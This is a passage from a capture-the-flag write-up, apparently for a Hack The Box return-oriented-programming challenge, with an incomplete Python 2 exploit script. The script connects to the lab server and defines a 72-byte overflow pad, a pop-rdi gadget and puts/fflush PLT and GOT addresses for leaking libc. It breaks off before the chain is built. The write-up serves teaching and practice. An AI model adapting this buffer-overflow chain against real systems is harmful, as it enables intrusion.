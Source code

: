 Then we see the suggestions:

![libc_db_input_2](ld_2.png)

Naturally, the more addresses we provide, the amount of possible versions shrinks.

So, we have everything we need to know, we just have to start working! let's prepare our code to have the remote machine leak the address of `puts`, and let's see if that would be enough for us to learn the libc version of it. If that will not be enough - we might have to also leak `fflush` and `fgets`.

Let's put everything together to one script leaking the `puts` location: (The changes so far are only in the `remote()` function)

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # this is true for libc 2.27
    # this is true for my local machine only
    puts_offset_in_libc = 0x0809c0

    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))

    ans = conn.recv(1024)
    print "server responded:"
    print ans
    print binascii.hexlify(ans)


PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
```